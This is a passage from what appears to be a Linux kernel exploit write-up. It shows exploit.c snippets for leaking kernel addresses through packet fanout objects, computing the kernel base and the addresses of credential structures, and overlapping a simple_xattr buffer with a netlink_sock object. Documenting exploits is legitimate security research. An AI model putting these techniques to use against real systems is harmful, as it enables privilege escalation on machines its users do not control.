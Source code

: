 - [exploit.c#L75](./exploit.c#L75):

```c
struct packet_fanout_leak_data {
  uint64_t net_addr;
  uint64_t packet_rcv_fanout_addr;
  uint64_t packet_fanout_addr;
  uint64_t packet_sock_addr;
  uint64_t type;
  uint64_t dev_addr;
};
```

## Step5: Calculate kernel base and other kernel addresses
- [exploit.c#L661](./exploit.c#L661):

```c
kernel_base = leak->packet_rcv_fanout_addr - PACKET_RCV_FANOUT_OFFSET_FROM_KERNEL_TEXT;
init_task += kernel_base;
init_cred += kernel_base;
init_fs += kernel_base;
netlink_sock_destruct += kernel_base;
```

- [exploit.c#L49](./exploit.c#L49):

```c
#define PACKET_RCV_FANOUT_OFFSET_FROM_KERNEL_TEXT 0xf0da90
```

## Step6: Overlap between `value` field of `struct simple_xattr` object and `struct netlink_sock` object

- [exploit.c#L675](./exploit.c#L675):

```c
while (!overlap_simple_xattr_payload_with_netlink_sock(packet_socket_fd, leak->packet_sock_addr,
        leak->net_addr)) {
  ;
}
```

- Related kernel code:

```c
static int fanout_add(struct sock *sk, struct fanout_args *args)
{
	struct packet_rollover *rollover = NULL;
	struct packet_sock *po = pkt_sk(sk);
	u16 type_flags = args->type_flags; // controllable
	struct packet_fanout *f, *match;
	u8 type = type_flags & 0xff;
	u8 flags = type_flags >> 8;
	u16 id = args->id;
	int err;
  
  ...

	match = NULL;
  // traverse linked list to find match packet_fanout
	list_for_each_entry(f, &fanout_list, list) {
		if (f->id == id &&
		    read_pnet(&f->net) == sock_net(sk)) {
			match = f;
			break;
		}
	}

```